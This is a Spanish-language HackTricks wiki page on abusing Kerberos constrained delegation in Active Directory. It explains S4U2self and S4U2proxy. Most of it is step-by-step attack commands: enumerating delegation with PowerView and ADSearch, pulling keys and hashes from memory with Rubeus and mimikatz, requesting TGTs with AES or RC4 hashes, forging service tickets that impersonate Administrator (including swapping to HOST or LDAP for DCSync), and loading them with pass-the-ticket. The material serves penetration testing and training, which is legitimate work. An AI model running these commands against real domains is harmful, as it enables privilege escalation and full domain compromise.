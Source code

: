 # Delegación Constrainada

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## Delegación Constrainada

Usando esto, un administrador de dominio puede **permitir** que una computadora **suplante a un usuario o computadora** contra un **servicio** de una máquina.

* **Servicio para Usuario a sí mismo (**_**S4U2self**_**):** Si una **cuenta de servicio** tiene un valor _userAccountControl_ que contiene [TRUSTED\_TO\_AUTH\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx) (T2A4D), entonces puede obtener un TGS para sí misma (el servicio) en nombre de cualquier otro usuario.
* **Servicio para Usuario a Proxy(**_**S4U2proxy**_**):** Una **cuenta de servicio** podría obtener un TGS en nombre de cualquier usuario al servicio establecido en **msDS-AllowedToDelegateTo.** Para hacerlo, primero necesita un TGS de ese usuario a sí misma, pero puede usar S4U2self para obtener ese TGS antes de solicitar el otro.

**Nota**: Si un usuario está marcado como ‘_La cuenta es sensible y no puede ser delegada_’ en AD, **no podrás suplantarlo**.

Esto significa que si **comprometes el hash del servicio** puedes **suplantar usuarios** y obtener **acceso** en su nombre al **servicio configurado** (posible **privesc**).

Además, **no solo tendrás acceso al servicio que el usuario puede suplantar, sino también a cualquier servicio** porque el SPN (el nombre del servicio solicitado) no se está verificando, solo los privilegios. Por lo tanto, si tienes acceso al **servicio CIFS** también puedes tener acceso al **servicio HOST** usando la bandera `/altservice` en Rubeus.

Además, el **acceso al servicio LDAP en DC**, es lo que se necesita para explotar un **DCSync**.

{% code title="Enumerar" %}
```bash
# Powerview
Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

#ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json
```
{% endcode %}

{% code title="Obtener TGT" %}
```bash
# The first step is to get a TGT of the service that can impersonate others
## If you are SYSTEM in the server, you might take it from memory
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

# If you are SYSTEM, you might get the AES key or the RC4 hash from memory and request one
## Get AES/RC4 with mimikatz
mimikatz sekurlsa::ekeys

## Request with aes
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05
.\Rubeus.exe asktgt /user:dcorp-adminsrv$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /nowrap

# Request with RC4
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d
.\Rubeus.exe asktgt /user:dcorp-adminsrv$ /rc4:cc098f204c5887eaa8253e7c2749156f /outfile:TGT_websvc.kirbi
```
{% endcode %}

{% hint style="warning" %}
Existen **otras formas de obtener un ticket TGT** o el **RC4** o **AES256** sin ser SYSTEM en la computadora, como el Printer Bug y la delegación no restringida, el relé NTLM y el abuso del Servicio de Certificados de Active Directory.

**Solo con tener ese ticket TGT (o hash) puedes realizar este ataque sin comprometer toda la computadora.**
{% endhint %}

{% code title="Usando Rubeus" %}
```bash
#Obtain a TGS of the Administrator user to self
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /impersonateuser:Administrator /outfile:TGS_administrator

#Obtain service TGS impersonating Administrator (CIFS)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /outfile:TGS_administrator_CIFS

#Impersonate Administrator on different service (HOST)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /altservice:HOST /outfile:TGS_administrator_HOST

# Get S4U TGS + Service impersonated ticket in 1 cmd (instead of 2)
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /user:dcorp-adminsrv$ /ticket:TGT_websvc.kirbi /nowrap

#Load ticket in memory
.\Rubeus.exe ptt /ticket:TGS_administrator_CIFS_HOST-dcorp-mssql.dollarcorp.moneycorp.local
```
{% endcode %}

{% code title="kekeo + Mimikatz" %}
```bash
#Obtain a TGT for the Constained allowed user
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d

#Get a TGS for the service you are allowed (in this case time) and for other one (in this case LDAP)
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLAR CORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL

#Load the TGS in memory
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~ dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'
```
{% endcode %}

[**Más información en ired.team.**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
